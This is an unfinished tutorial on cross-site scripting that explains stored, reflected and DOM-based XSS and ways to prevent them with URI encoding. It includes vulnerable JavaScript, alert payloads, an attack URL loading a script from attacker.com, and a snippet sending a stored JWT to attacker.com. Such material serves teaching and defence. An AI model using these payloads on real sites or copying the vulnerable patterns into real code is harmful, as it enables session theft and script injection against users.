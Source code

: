 Cross Site Scripting
====================

Cross site scripting (aka XSS) are one of the most prevalent attacks involving web
applications and JavaScript. Still ranking as the number 1 in the [2017's OWASP Top 10][1].

The attack consists in executing malicious JavaScript code in the browser of a victim. There
are three types of XSS attacks - `Reflected`, `Stored` and `DOM` based.
All are based on JavaScript injection but but differ in a few aspects.

In this article we will explore the various types of XSS, as well as provide
vulnerable and secure code for each case.

The purpose of this section is to provide some understanding of XSS attacks and
to demonstrate how bad practices can lead to security issues.

## Stored XSS
Consider the following scenario:

There's a news website that supports user comments. Whenever a user submits a
comment to a news article, that comment ends up stored on the server and from that
point forward, every time a new user loads the news page, the new user comments
will also be loaded.

But if a malicious user inserts JavaScript in the comment body instead
of just text, the JavaScript code will be stored on the server, and
everytime a user loads the news article's comments, said JavaScript will execute
on the user's browser.

A simple diagram to illustrate:

1. An attacker submits malicious JavaScript in a comment.  

  ![stored 1](images/stored1.png)

2. An unsuspecting user requests the webpage with the injected JavaScript.  

  ![stored 2](images/stored2.png)

3. Result.  

  ![stored 3](images/stored3.png)

## Reflected XSS
Another type of XSS attack is called a reflected XSS. The difference between this
type of attack and the previously discussed one, is that in the previous example
the JavaScript injected by the attacker ends up being stored on the server, and every
time the compromised webpage is sent to a user, the injected JavaScript is also sent.

In the case of the reflected XSS, the malicious JavaScript is sent as part of
the request. The website then includes the injected JavaScript in the response,
and it is executed on the client-side.

An easy way to understand how this happens is to consider a search form that in
case of not finding any results writes the string you searched for on the webpage.

![SearchBox](images/search.png)

If a user searched for `<script>alert(XSS)</script>` this would make the browser
render the JavaScript inside the `<script>` tags, creating a relfected XSS.

This may not look too bad security-wise since it's not stored on the server
(which means that the JavaScript would only render in the attacker's browser), but in fact
this allows the attacker to create a specially crafted URL that can be used to
compromise an unsuspecting user.

Let's see how.

A regular request to the search page would look something like:  
`http://example.com/search?q=mySearch`

But if the issue described before is present, then an URL such as:  
`http://example.com/search?q=<script>alert('XSS')</script>`

would cause the JavaScript inside the `<script>` tags to be rendered in the
browser of whoever made this request.

This means that if an attacker sends a user the previous search link, the
victim upon clicking the link, would unknowingly run malicious JavaScript in
his/her browser.

_______
//TODO ADD SANITIZATION, ADD CODE
_______

## DOM Based XSS

DOM based XSS is similar to stored and reflected XSS's, but with one subtle,
but very important distinction - the malicious JavaScript won't be loaded when
the page loads, instead, the malicious JavaScript executes as a result of treating user
input in an unsafe way.

An easy way to understand this type of vulnerability is to consider pages that
dynamically update content without refreshing the whole page. The technology that
allows for this to happen, is AJAX. And AJAX is essentially JavaScript and XML.

As an example consider the following script used to display ads on a website:
```JavaScript
document.write('<script type="text/JavaScript" src="' + (location.search.split('req=')[1] || '') + '"></scr'+'ipt>');
```

Since the `location.search.split` is not properly escaped, the `req` parameter
can be manipulated by an attacker to retrieve malicious JavaScript from a
third-party domain and inject it into the webpage the victim is visiting.
`
http://www.example.com/ads/displayad.html?req=https://www.attacker.com/poc/xss.js
`
To perform this attack, an attacker creates a URL as the one above, and a user
upon clicking it, would execute the contents of the malicious script in their
browser.

There is another type of XSS that take advantage of features that are client-side  
only. This means that through these techniques, no logs are ever recorded on the
server.

A simple example of each feature is presented:

### Fragment identifiers:

The following script is very simple and for demonstration purposes only, but
encompasses the concept.

If this script was on a page:
```html
<script>
x=location.hash.slice(1);
document.write(x)
</script>
```

Then the following URL:
```
http://example.com/fragment.html#<script>alert(1)</script>
```

would trigger a XSS based on the fragment identifier.

### Local Storage

Another feature called `Local Storage` introduced with HTML5 also allows for
DOM based XSS's without the server logging.

`Local Storage` allows application data to be stored locally in the user's browser,
without resorting to cookies. There are several differences from cookies.
It is usually regarded as more secure and more performant than cookies, it also
allows a larger storage limit (5MB).

It should be noted that both `cookies` and `localStorage` are protected from
unrelated domains by the `Same-Origin Policy`.

For our demonstration, the feature we will focus on is the fact that the
data stored with `localStorage` is never sent to the server.
This is what allows the DOM-XSS to be performed without logs on the server-side.

A simple example:
```html
<script>
//Save our sample data
localStorage.setItem("JWT", "JWTTOKEN");

document.write("new Image().src='http://www.attacker.com?token="+localStorage.getItem('JWT')+"'>");
</script>
```

An important security detail to keep in mind is that the `localStorage` object
stores the data without an expiration date. This means that the data will not be
deleted when the browser is closed.

## How to prevent XSS?
### Native JavaScript

One of the required steps to handle this type of issue is to escape the HTML by
replacing it's special characters with their corresponding entities.

As of JavaScript 1.5 (ECMAScript v3) there are two built-in function that encode special
characters and prevent the rendering of the JavaScript injection in user's
browsers.

The `encodeURI()` function encodes all special characters except:  
`, / ? : @ & = + $ #`
And the result will be a valid URL.

Code example:
```JavaScript
encodeURI("http://example.com/news/1?comment=<script>alert(XSS1)</script>");
```
Result:
```
"http://example.com/news/1?comment=%3Cscript%3Ealert(XSS1)%3C/script%3E"
```
If the special characters are not supported by the previous function,
the `encodeURIComponent()` can be used to encode instead.

Code example:
```JavaScript
encodeURIComponent("http://example.com/news/1?comment=<script>alert(XSS1)</script>");
```
Result:
```
"http%3A%2F%2Fexample.com%2Fnews%2F1%3Fcomment%3D%3Cscript%3Ealert(XSS1)%3C%2Fscript%3E"
```

Note that `encodeURIComponent()` does not escape the `'` character. A common bug
is to use it to create `HTML` attributes such as `href='MyUrl'`, which could
suffer an injection bug.  
If you are constructing HTML from strings, either use `"` instead of `'` for
attribute quotes, or add an extra layer of encoding (`'` can be encoded as `%27`).

### Node.JS

In Node.JS there are some modules that help with output
//TODO: Add libraries for encoding

### AngularJS
//TODO: Write NodeJS/AngularJS app to create code examples.

### React.js
//TODO: Write NodeJS/ReactsJS app to create code examples.

//TODO - Check references and links.

[1]: https://www.owasp.org/index.php/Top_10_2017-Top_10
